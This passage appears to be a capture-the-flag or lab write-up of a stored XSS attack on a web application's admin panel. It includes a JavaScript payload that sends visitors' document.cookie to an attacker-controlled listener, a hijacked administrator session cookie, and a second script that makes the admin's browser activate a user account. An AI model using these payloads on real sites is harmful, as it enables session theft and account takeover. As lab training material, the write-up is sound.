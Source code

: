 ____
Now, any authenticated user that sees this panel will execute the injected script.
## Attacking with XSS
We inject a script to retrieve a connection from anyone that sees the *admin.php* panel.
![[Pasted image 20230629172414.png]]
____
### Cookie Hijacking
Now we can do a *Cookie Hijacking* with the next script into *pwned.js*.
Starting a Http listener server.
```shell
sudo python3 -m http.server 80
```
____
Content of *pwned.js*.
```js
var request = new XMLHttpRequest();
request.open('GET', 'http://192.168.200.128/?cookie=' + document.cookie);
request.send();
```
____
You can see that some user that sees the */admin/admin.php* panel is sending his cookie to us.
![[Pasted image 20230629173021.png]]
____
We use this captures cookie: *h716aj84eo0ihr3e42a3tr0ij5* to see if we can hijack it.
![[Pasted image 20230629173359.png]]
This cookie belongs to an administrator, and this only can be used in one session.
![[Pasted image 20230629173618.png]]
___
### Doing Things as Administrator
To **active** an account, when we click on the *active* button, It sends this in the URL.
```URL
http://192.168.200.131/admin/admin.php?id=11&status=active
```
____
So we can use this *GET* request in out *pwned.js* script so the administrator active the *samuel* user, just like this.
```shell
sudo python3 http.server 80
```
____
```js
var request = new XMLHttpRequest();
request.open('GET', 'http://192.168.200.131/admin/admin.php?id=11&status=active');
request.send();
```
____
And now, the *samuel* user is **actived**.
![[Pasted image 20230629174743.png|700x400]]
____
We login in with *samuel* credentials now, because his account is *actived*.
Also, we can see that a few users are chating.
![[Pasted image 20230629181356.png]]
____
In the **Expense reports**, you can see that the expense value hasn't been paid.
![[Pasted image 20230629181749.png]]
____
